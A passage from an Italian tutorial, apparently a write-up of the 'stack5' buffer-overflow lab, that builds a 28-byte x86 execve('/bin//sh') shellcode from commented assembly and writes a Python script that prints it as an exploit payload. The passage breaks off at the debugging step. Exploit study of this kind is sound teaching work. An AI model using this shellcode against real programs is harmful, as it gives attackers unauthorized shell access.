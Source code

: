 Il valore di ritorno di _execve_ non viene utilizzato quindi non generiamo codice per gestirlo.

### Scriviamo l'assembly 
Nota: L.E. sta per Little Endian
```assembly
xor  %eax, %eax # poniamo a 0 il registro %eax
push %eax #mettiamo nello stack %eax
push $0x68732f2f # mettiamo nello stack la rappresentazione L.E. di //sh
push $0x6e69622f # mettiamo nello stack la rappresentazione L.E. di /bin
mov  %esp, %ebx # il primo argomento punta alla stringa /bin//sh\0
mov  %eax, %ecx # il secondo argomento punta a null
mov  %eax, %edx # il terzo argomento punto a null
mov  $0xb, %eax # spostiamo il bit meno significativo di %eax
int  $0x80 # tramite l'interrupt 128 il controllo passa al kernel che esegue
          # la chiamata di sistema relativa al contenuto di %eax che è la chiamata a execve()
xor  %eax, %eax # settiamo di nuovo a 0 il contenuto di %eax
inc  %eax # incrementiamo di 1 il contenuto di %eax
int  $0x80 # tramite l'interrupt 128 il controllo passa al kernel che esegue
          # la chiamata di sistema relativa al contenuto di %eax che è la chiamata a exit()
```
### Cosa fare
Bisogna tradurre lo shellcode scritto in una stringa esadecimale, per farlo dobbiamo svolgere i seguenti passi:
#### 1. Creare il file schellcode.s
Basta aprire _nano_ e inserire l'assemby scritto e commentato prima, ricorda che come prima cosa nel file va scritta la riga _shellcode:_ e poi a capo puoi scrivere l'assembly.
#### 2. Compilare il sorgente, 
con -m32 compiliamo a 32bit e con -c non generiamo l'eseguibile
```bash
> gcc -m32 -c shellcode.s -o shellcode.o
```
#### 3. Disassemblare shellcode.o
Utiliziamo _objdump_ per disassemblare _shellcode.o_
```bash
> objdump --disassemble shellcode.o
# l'output è composto dalle istruzioni assembly in esadecimale
```
#### 4. Codifica delle istruzioni 
Codifichiamo le istruzioni esadecimali sotto forma di stringa e otteniamo:
```java
//la stringa è stata spezzata per questioni di formattazione
"\x31\xc0\x50\x68\x2f\x2f\x73"
"\x68\x68\x2f\x62\x69\x6e\x89"
"\xe3\x89\xc1\x89\xc2\xb0\x0b"
"\xcd\x80\x31\xc0\x40\xcd\x80"
//La sua lunghezza è di 28 byte
```
#### 5. Preparazione dell'input
Creiamo uno script python chiamato _stack5\_payload.py_ che stampa in output l'input da passare a _stack5_
```python
#!/usr/bin/python
shellcode = "\x31\xc0\x50\x68\x2f\x2f\x73" + \
            "\x68\x68\x2f\x62\x69\x6e\x89" + \
            "\xe3\x89\xc1\x89\xc2\xb0\x0b" + \
            "\xcd\x80\x31\xc0\x40\xcd\x80";
print shellcode
```
Salviamo l'output in un file
```bash
> python stack5_payload.py > /tmp/payload
```
#### 6. Debug di stack5